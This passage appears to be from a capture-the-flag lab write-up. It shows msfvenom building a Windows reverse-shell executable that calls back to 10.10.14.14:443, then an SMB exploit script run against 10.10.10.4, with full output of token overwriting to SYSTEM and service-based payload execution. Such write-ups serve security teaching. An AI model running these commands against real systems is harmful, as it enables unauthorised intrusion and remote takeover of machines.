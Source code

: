 #### Generate Payload

I’ll use `msfvenom` again. This time, I don’t need to worry about bad characters or variable names, as I can use an exe:

```

root@kali# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.14 LPORT=443 EXITFUNC=thread -f exe -a x86 --platform windows -o rev_10.10.14.14_443.exe
No encoder or badchars specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: rev_10.10.14.14_443.exe

```

#### Run Exploit

Now I’ll start a listener, and then run the exploit:

```

root@kali# python send_and_execute.py 10.10.10.4 rev_10.10.14.14_443.exe
Trying to connect to 10.10.10.4:445
Target OS: Windows 5.1
Using named pipe: browser
Groom packets
attempt controlling next transaction on x86
success controlling one transaction
modify parameter count to 0xffffffff to be able to write backward
leak next transaction
CONNECTION: 0x82246bb8
SESSION: 0xe10f9408
FLINK: 0x7bd48
InData: 0x7ae28
MID: 0xa
TRANS1: 0x78b50
TRANS2: 0x7ac90
modify transaction struct for arbitrary read/write
make this SMB session to be SYSTEM
current TOKEN addr: 0xe1b1df10
userAndGroupCount: 0x3
userAndGroupsAddr: 0xe1b1dfb0
overwriting token UserAndGroups
Sending file N0KFUJ.exe...
Opening SVCManager on 10.10.10.4.....
Creating service TMkY.....
Starting service TMkY.....
The NETBIOS connection with the remote host timed out.
Removing service TMkY.....
ServiceExec Error on: 10.10.10.4
nca_s_proto_error
Done

```
